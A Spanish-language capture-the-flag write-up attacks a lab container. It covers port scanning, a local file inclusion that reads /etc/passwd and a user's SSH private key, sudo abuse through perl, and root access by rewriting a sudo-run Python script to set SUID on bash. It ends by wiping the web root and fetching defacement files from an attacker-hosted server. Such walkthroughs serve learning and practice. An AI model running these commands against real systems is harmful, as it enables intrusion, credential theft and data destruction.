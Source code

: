 
![[20250805113215.png]]
# Fase de reconocimiento

Lo primero como siempre vamos a hacer un escaneo de puertos basicos con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

una vez detectados los puertos que están abiertos vamos a hacer otro escaneo pero esta vez con scripts básicos de nmap para ver servicios y versiones 

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![[20250805113449.png]]

vamos a ver que contiene el puerto 80 

![[20250805113522.png]]
![[20250805113543.png]]

podemos apreciar una pagina web sin iteración posible y al final de esta tenemos un mensaje de error como si algo no se pudiera ejecutar correctamente 

vamos a hacer un escaneo con wfuzz para ver si sacamos algún directorio de interés.

```bash
wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc 404 http://172.17.0.2/FUZZ
```

![[20250805113729.png]]

vemos que la pagina en la que estamos en un php y quizá hay algo mal configurado por lo que se produce el error que vimos antes en la web. vamos a comprobar con fuff si existe algún parámetro escondido que nos pueda ayudar a realizar un LFI (local file inclusion)

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://172.17.0.2/?FUZZ=key"  -fs 2596 -s
```

![[20250805113910.png]]

vemos que existe un parámetro llamado secret asi que vamos a probar a realizar el LFI desde la web

```bash
http://172.17.0.2/index.php?secret=../../../../../../../etc/passwd
```

![[20250805114037.png]]

vemos que se acontece el LFI y además podemos ver en el /etc/passwd dos usuarios vaxei y luisillo. veamos si podemos conseguir algún id_rsa ya que el puerto 22 esta abierto

esta vez vamos a hacerlo por terminal en vez de por la web para ver asi varias maneras de hacer lo mismo. esto lo hago para que personas que esten empezando puedan aprender varias formas. se puede hacer todo por URL o todo por Curl de esta manera

```bash
curl -s -X GET "http://172.17.0.2/?secret=/home/vaxei/.ssh/id_rsa"
```

![[20250805114422.png]]

Desde el usuario luisillo no encontramos nada pero en el usuario vaxei encontramos esto.

ahora vamos a ver como podemos acceder a la maquina desde aqui.

---

# Fase de Explotación

Vamos a crear con nano un archivo llamado id_rsa y dentro pondremos el código que acabamos de encontrar de esta manera

![[20250805114640.png]]

lo guardamos y tratamos de conectarnos por ssh

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

![[20250805114723.png]]

nos sale un error que deniega la rsa y nos piden contraseña por lo que vamos a intentar cambiarle los permisos a nuestra llave

```bash
chmod 0600 id_rsa
```

y probamos a conectarnos como antes 

![[20250805114834.png]]

ahora si tenemos acceso al sistema como vaxei

---

# Fase Post-Explotación

vamos a ver que permisos SUDO tenemos ahora mismo 

```bash
sudo -l
```

![[20250805114921.png]]

vemos que podemos utilizar como sudo -u luisillo sin contraseña el binario perl a si que vamos a buscar en GTFObins una manera de explotar esto

![[20250805115012.png]]

simplemente tenemos que poner 

```bash
sudo -u luisillo perl -e 'exec "/bin/bash";'
```

he cambiado la "sh" por una "bash" ya que para mi es mas cómodo trabajar con este tipo de SHELL 

![[20250805115303.png]]

podemos ver que tenemos acceso como luisillo y como podeis apreciar he intentado hacer Ctrl + L para limpiar la pantalla y no ha funcionado asi que vamos a arreglar esto 

```bash
export TERM=xterm
```

ahora si con una shell mas comoda podemos trabajar mejor.

---

# Escalada de Privilegios

repitamos lo que hemos hecho para llegar a luisillo pero esta vez desde este usuario para poder escalar a root

```bash
sudo -l
```

![[20250805115528.png]]

aqui podemos ver que tenemos permisos de sudo para ejecutar un script de python sin contraseña. asi que vamos a ver que contiene este script 

![[20250805115633.png]]

entre varias funciones vemos que se importan las librerías sys y os que nos permiten ejecutar comandos a nivel de sistema y vemos un código que pone "echo Ojo aqui" si conseguimos modificar este archivo podremos lanzar una shell como root. asi que vamos a ver que permisos tenemos sobre el archivo 

```bash
ls -l /opt/paw.py
```

![[20250805115825.png]]

vemos que solo root puede modificar el archivo así que vamos a ir un poco mas para atrás para comprobar si tenemos permisos en el directorio "opt"

utilizamos los comandos

```bash
cd /
```

```bash
ls -l
```

![[20250805115945.png]]

vamos que tenemos permisos de lectura, escritura y ejecucion en la carpeta opt asi que vamos a hacer lo siguiente
```bash
cd /opt
```

```bash
rm -rf paw.py 
```

```bash
nano paw.py
```

y en el archivo escribimos esto 

```python

import os
import sys

# Código para ejecutar el script
os.system("chmod u+s /bin/bash")
```

una vez tenemos esto vamos a ejecutarlo somo sudo

```bash
sudo python3 /opt/paw.py 
```

![[20250805120335.png]]

podemos comprobar que ahora la /bin/bash tiene permisos SUID por lo que podemos lanzar una shell como root 

```bash
bash -p
```

![[20250805120418.png]]

# Extra

y como extra realizamos nuestra banderita como explique en la maquina chocolateLovers

vamos a /var/www/html

```bash
cd /var/www/html
```

destruimos todo lo que contiene

```bash
rm -r ./*
```


abrimos en nuestra terminal de atacante un puerto con python en la carpeta donde tenemos nuestro html con el mensaje

```bash
python3 -m http.server 8081
```

y en la maquina victima ejecutamos los comandos que mostré 

```bash
wget http://192.168.1.182:8081/index.html -O index.html
```

```bash
wget http://192.168.1.182:8081/panda.png -O panda.png
```

vamos a la pagina web de la maquina victima y actualizamos 

![[20250805120743.png]]

Y terminamos la maquina con este regalito.